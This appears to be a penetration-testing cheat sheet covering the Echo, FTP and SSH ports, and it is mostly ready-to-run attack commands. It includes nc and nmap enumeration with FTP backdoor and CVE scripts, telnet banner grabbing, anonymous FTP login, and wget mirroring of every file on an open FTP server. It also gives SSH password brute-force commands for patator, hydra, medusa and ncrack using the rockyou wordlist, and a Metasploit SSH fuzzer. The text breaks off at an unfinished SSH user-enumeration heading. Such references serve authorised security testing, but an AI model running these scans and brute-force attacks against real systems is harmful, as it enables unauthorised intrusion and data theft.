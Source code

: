 ## Port 7 - Echo tcp/udp

```bash
# Contact Echo service (UDP)
nc -uvn $IP 7
Hello echo    #This is wat you send
Hello echo    #This is the response
```
References :
https://en.wikipedia.org/wiki/ECHO_protocol

## Port 21 - FTP
```bash
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $IP

# Banner Grabbing
telnet -vn $IP 21

# Anonymous login
ftp <IP>
>anonymous
>anonymous
>ls -a # List all files
>binary #Set transmission to binary instead of ascii
>ascii #Set transmission to ascii instead of binary
>bye #exit

# Browser connection
ftp://anonymous:anonymous@10.10.10.xx

# Download all files
wget -m ftp://anonymous:anonymous@$IP #Donwload all
wget -m --no-passive ftp://anonymous:anonymous@$IP #Download all

```

## Port 22 - SSH

```bash
# Enumeration
nc -vn $IP 22

# Public SSH key of server
ssh-keyscan -t rsa $IP -p <PORT>

# BruteForce:

patator ssh_login host=$IP port=22 user=root 0=your_file.txt password=FILE0 -x ignore:mesg='Authentication failed.'

hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111

medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh

ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

#Msf
use auxiliary/fuzzers/ssh/ssh_version_2

#SSH Enum users < 7.7:

```